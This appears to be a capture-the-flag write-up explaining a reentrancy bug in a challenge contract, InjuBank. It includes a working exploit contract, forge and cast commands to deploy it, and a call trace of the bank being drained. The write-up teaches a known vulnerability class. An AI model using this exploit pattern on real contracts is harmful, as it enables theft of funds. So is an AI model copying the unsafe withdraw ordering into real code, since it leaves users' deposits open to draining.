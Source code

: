 This Bank is not as secure as you might think, first let's see what is the `isSolved()` condition on the Setup Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import {InjuBank} from "./InjuBank.sol";

contract Setup {
    InjuBank public immutable IB;

    constructor() payable{
        IB = new InjuBank{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(IB).balance == 0;
    }
}
```

based on the Setup Contract, the initial balance of the bank is 50 Ether, while the `isSolved()` will return true if it has 0 balance, not let's see the Inju Bank to see what are we dealing with.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract InjuBank{

    mapping(address => uint256) public balanceOf;

    constructor() payable{}

    function deposit() public payable{
        require(msg.value > 1 ether, "Minimum Deposit is 1 ether");
        uint256 toAdd = msg.value;
        balanceOf[msg.sender] += toAdd;
    }

    function withdraw(uint256 _amount) public{
        require(_amount <= balanceOf[msg.sender], "Amount to Withdraw exceed Balance");
        require(_amount >= 1 ether, "Minimum Withdrawal is 1 Ether");
        uint256 newBalance = balanceOf[msg.sender] - _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Withdrawal Failed!");
        balanceOf[msg.sender] = newBalance;
    }

    receive() external payable { 
        deposit();
    }

}
```

We only have 2 function to deal with in this contract, yeah let's say the `receive()` is the same as the `deposit()`. So first, the `deposit()` function allow us to deposit some Ether to the bank and add it to our account, it has the minimum deposit of 1 Ether. Next up, is the `withdraw()` that allow us to withdraw our money with the minimum amount of 1 Ether per withdrawal, nothing seems strange until we look more closely

```solidity
    function withdraw(uint256 _amount) public{
        // CHECKS 
        require(_amount <= balanceOf[msg.sender], "Amount to Withdraw exceed Balance");
        require(_amount >= 1 ether, "Minimum Withdrawal is 1 Ether");
        uint256 newBalance = balanceOf[msg.sender] - _amount;
        // INTERACTIONS
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Withdrawal Failed!");
        // EFFECT
        balanceOf[msg.sender] = newBalance;
    }
```

The best practice of any function is always CEI or **CHECK** - **EFFECT** - **INTERACTIONS**, the `withdraw()` function however doesn't seem to apply this correctly, instead it implements CIE or **CHECK** - **INTERACTIONS** - **EFFECT**, in this case the **INTERACTIONS** is sending the balance to the `msg.sender`, which if it's a smart contract or more explicitly an Exploit Contract, we can control what to do next after receiving any Ether by modifying the `receive()` function on our Exploit Contract.

The Exploit will have this flow, first we have to deposit some Ether, since the minimum is one an we have 6 Ether, we can give our Exploit 5 Ether and make it deposit all that Ether. Next is calling the withdraw with the value of 5 (our balance), upon receiving the Ether, we can just make it trigger another `withdraw()` of another 5 Ether, this will be repeated until we drain all the balance on the Inju Bank. The Exploit would look like this

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./InjuBank.sol";
import "./Setup.sol";

contract Exploit{
    Setup public immutable setup;
    InjuBank public immutable IB;

    constructor(address payable _setup) payable {
        require(msg.value == 5 ether, "need 5 ether");
        setup = Setup(_setup);
        IB = InjuBank(setup.IB());
    }

    function exploit() public{
        IB.deposit{value: 5 ether}();
        IB.withdraw(5 ether);
    }


    receive() external payable { 
        if(address(IB).balance >= 5 ether){
            IB.withdraw(5 ether);
        }
    }

}
```

To Deploy the Exploit Contract and run it we can use this command

```bash
// Deploying the Exploit Contract
forge create src/inju-bank/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Calling the exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```

After running the command, if you press the `Flag` button now you should get the flag. By the way if you are curious on like how the attack worked, here is a little flow of the Exploit.

```bash
├─ [123849] Exploit::attack()
    │   ├─ [22434] InjuBank::deposit{value: 5000000000000000000}()
    │   │   └─ ← ()
    │   ├─ [91371] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   ├─ [83596] Exploit::receive{value: 5000000000000000000}()
    │   │   │   ├─ [83031] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   ├─ [75256] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   ├─ [74691] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   ├─ [66916] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   ├─ [66351] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   ├─ [58576] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [58011] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   ├─ [50236] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [49671] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41896] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41331] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [33556] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [32991] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [25216] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [24651] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16876] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16311] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [8536] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [7971] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [196] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   └─ ← ()
    │   │   │   │   └─ ← ()
    │   │   │   └─ ← ()
    │   │   └─ ← ()
    │   └─ ← ()
```

In short, when the Ether is received by our Exploit Contract, it will first check whether the Inju Bank Contract still has balance or not (greater than or equal to 0), if it's valid, it will then call another `withdraw()` with 5 Ether, until it's false.